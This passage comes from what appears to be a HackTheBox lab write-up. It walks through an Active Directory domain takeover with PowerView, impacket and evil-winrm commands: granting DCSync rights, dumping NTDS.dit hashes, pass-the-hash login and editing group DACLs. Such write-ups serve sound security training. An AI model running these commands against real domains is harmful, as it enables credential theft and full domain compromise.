 5.  As we are still logged in as svc-alfresco, we need to use a Credentialed Object to grant our user DCSync Privileges:

```powershell
$SecPassword = ConvertTo-SecureString 'bl00dst1ll3r!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb\bloodstiller', $SecPassword)
```
   -   {{< figure src="/ox-hugo/2024-11-15-124006_.png" >}}

6.  Grant ours user DCSync privileges with PowerView:
    -   `Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity bloodstiller -Rights DCSync`
    -   {{< figure src="/ox-hugo/2024-11-15-124101_.png" >}}

7.  We can now use secrets-dump to dump the `NTDS.dit`.
    -   `impacket-secretsdump $domain/$user:$pass@$box`
    -   {{< figure src="/ox-hugo/2024-11-15-124343_.png" >}}

8.  We can now login as the administrator using their hash and get the flag:
    -   `evil-winrm -i $box -u $user -H $hash`
    -   {{< figure src="/ox-hugo/2024-11-15-124857_.png" >}}


### Granting svc-alfresco DCSync Rights (unintended path to root): {#granting-svc-alfresco-dcsync-rights--unintended-path-to-root}

+Note+: I have since tried to recreate this attack path with chaining the commands quickly and it will not work for me, maybe I got lucky on first try.

-   **Attack Path**:
    -   Make "svc-alfresco" owner of the group "Exchange Windows Permissions"
    -   Grant "svc-alfresco" the ability to add users to the group "Exchange Windows Permissions" by modifying the DACL.
    -   Add "svc-alfresco" to the group to group "Exchange Windows Permissions".
    -   Grant "svc-alfresco" DCSync privileges over the root domain object by modifying the DACL using our new inherited `WriteDacl` permission we now have by being part of the "Exhange Windows Permissions" group.



1.  Make "svc-alfresco" the new owner of Exchange Windows Permissions group:
    -   `impacket-owneredit -action write -new-owner $user -target-sid 'S-1-5-21-3072663084-364016917-1341370565-1121' $domain/$user:$pass`
    -   {{< figure src="/ox-hugo/2024-11-15-112951_.png" >}}
        -   +Note+: I extract the SID for this group from bloodhound, or we can use `impacket-lookupsid`
        -   {{< figure src="/ox-hugo/2024-11-15-112625_.png" >}}

2.  Grant "svc-alfresco" the ability to add users to the group by modifying the DACL's:
    -   `impacket-dacledit -action 'write' -rights 'WriteMembers' -principal $user -target-sid  'S-1-5-21-3072663084-364016917-1341370565-1121' $domain/$user:$pass`
    -   {{< figure src="/ox-hugo/2024-11-15-113129_.png" >}}

3.  Add "svc-alfresco" to the group:
    -   `net rpc group addmem "EXCHANGE WINDOWS PERMISSIONS" $user -U $domain/$user%$pass -S $box`
    -   {{< figure src="/ox-hugo/2024-11-15-113209_.png" >}}
    -   +Note+: There will be no output from this command, we need to instead verify it worked in the next command.
